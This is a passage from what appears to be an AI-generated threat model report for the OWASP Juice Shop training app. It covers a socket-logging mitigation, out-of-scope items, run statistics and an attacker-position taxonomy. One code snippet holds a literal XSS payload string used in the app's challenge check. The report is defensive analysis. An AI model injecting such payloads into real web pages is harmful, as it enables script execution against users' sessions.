
**How:** In each `socket.on(...)` handler, emit a structured log entry including `socket.id`, `socket.handshake.address`, and the authenticated user ID (once auth middleware from realtime-channel-001 is in place). Pass actor context from the socket into `challengeUtils.solve()` so the solve-log entry includes `{ userId, socketId, remoteIp }` fields. Ensure logs are forwarded to an append-only sink (not the same process) so socket-level entries cannot be deleted by the attacker who triggered them.

1. In each `socket.on(...)` handler, emit a structured log entry including `socket.id`, `socket.handshake.address`, and the authenticated user ID (once auth middleware from realtime-channel-001 is in place).
2. Pass actor context from the socket into `challengeUtils.solve()` so the solve-log entry includes `{ userId, socketId, remoteIp }` fields.
3. Ensure logs are forwarded to an append-only sink (not the same process) so socket-level entries cannot be deleted by the attacker who triggered them.

```javascript
socket.on('verifyLocalXssChallenge', (data: any) => {
  logger.info(`[socket:${socket.id}] verifyLocalXssChallenge from ${socket.handshake.address}`)
  challengeUtils.solveIf(challenges.localXssChallenge, () => utils.contains(data, '<iframe src="javascript:alert(`xss`)">'))
})
```

**Reference:** CWE-778

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-16 10:03 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | `/home/mrohr/juice-shop` |
| Output directory | `/home/mrohr/juice-shop/docs/security` |
| Total analysis duration | 105m 28s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|--------|--------|----------|---------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | sonnet | 87m 35s | 394 | 794,429 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 10m 18s | 122 | 187,666 |
| 2 | Report Rendering | appsec-threat-renderer | sonnet | 7m 34s | 49 | 105,272 |
| **Total** | - | - | - | **105m 28s** | **565** | **1,087,367** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution complete (parallel with<br/>Phase 2) | threat-analyst (sonnet-4-6) | 13m 51s |
| Phase 2 | Reconnaissance complete | recon-scanner (sonnet-4-6) | 13m 51s |
| Phase 3 | Architecture Modeling - 5 diagrams produced<br/>(3m10s) | threat-analyst (sonnet-4-6) | 3m 10s |
| Phase 4 | Attack Walkthroughs - deferred to Stage 2<br/>renderer (per STAGE1_PHASE_LIMIT=8 contract) | threat-analyst (sonnet-4-6) | (inline) |
| Phase 5 | Asset Identification - 10 assets catalogued<br/>(2m52s) | threat-analyst (sonnet-4-6) | 2m 52s |
| Phase 6 | Attack Surface Mapping - 112 entry points<br/>(54 unauthenticated) (2m52s) | threat-analyst (sonnet-4-6) | 2m 52s |
| Phase 7 | Trust Boundary Analysis - 8 boundaries<br/>(2m52s) | threat-analyst (sonnet-4-6) | 2m 52s |
| Phase 8 | Security Controls - ✅ 3 ⚠️ 6 🔶 5 ❌ 18<br/>(3m04s) | threat-analyst (sonnet-4-6) | 3m 04s |
| Phase 9 | STRIDE Merge - 92 threats (Crit:29 High:47<br/>Med:13 Low:3) | Nx stride-analyzer (sonnet-4-6) | 65s |
| Phase 10 | Scan Synthesis - 2 sca-practice, 5<br/>known-bad-libs | threat-analyst (sonnet-4-6) | 25s |
| Phase 10b | Triage - sidecars written<br/>(mitigation-overrides, tier-root-causes) | appsec-triage-validator (sonnet-4-6) | 110s |
| Phase 11 | [§7](#7-security-architecture) enrichment complete [secarch] | threat-analyst (sonnet-4-6) | 7m 03s |
| Phase 11 | Finalization (parallel renderer) | threat-analyst (sonnet-4-6) | 14m 45s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)